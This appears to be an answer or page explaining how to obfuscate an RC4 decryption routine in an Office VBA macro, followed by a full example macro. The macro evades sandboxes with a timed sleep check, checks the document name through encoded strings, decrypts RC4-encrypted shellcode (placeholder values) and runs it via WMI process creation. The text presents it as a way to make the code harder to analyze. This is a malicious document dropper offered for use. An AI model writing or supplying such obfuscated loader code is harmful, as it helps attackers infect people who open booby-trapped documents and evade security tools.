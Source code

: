 ### How It Works

1. **Variable Name Obfuscation**:
   - The variable names have been changed to random alphanumeric strings (`mF0x`, `nR3d`, `tR1x`, etc.) to make it difficult to understand the code's logic.

2. **Function Name Obfuscation**:
   - The function name `Fr3ak` is arbitrary and doesn't reveal its purpose.

3. **Scrambling**:
   - The operations within the function are structured in a way that looks confusing at first glance.

4. **Logical Separation**:
   - The logical parts of the function (initialization, scrambling, decryption) are kept separate but obfuscated with unrelated variable names.

### Integrating into Your Script

Replace the original RC4 function in your VBScript with this obfuscated version. The rest of the code remains the same, but this adds a layer of complexity, making it harder to analyze.

### Example Integration

```vba
Function MyMacro()
    Dim Apples As String
    Dim Leap As String
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long
    t1 = Now()
    Sleep (5000)
    t2 = Now()
    time = DateDiff("s", t1, t2)
    If time < 4.5 Then
        Exit Function
    End If

    If ActiveDocument.Name <> Yellow("109124124058112123111121") Then
        Exit Function
    End If

    ' Obfuscated RC4-encrypted shellcode
    Dim EncShellcode As String
    EncShellcode = "RC4_ENCRYPTED_SHELLCODE_HERE"

    ' Obfuscated RC4 key
    Dim Key As String
    Key = "YOUR_RC4_KEY_HERE"

    ' Decrypt the shellcode using the obfuscated function
    Leap = Fr3ak(Key, EncShellcode)

    ' Execute the decrypted shellcode via WMI
    GetObject(Yellow("131117122121115121128127070")).Get(Yellow("099117122063062107092126123111113127127")).Create Leap, Tea, Coffee, Napkin
End Function
```
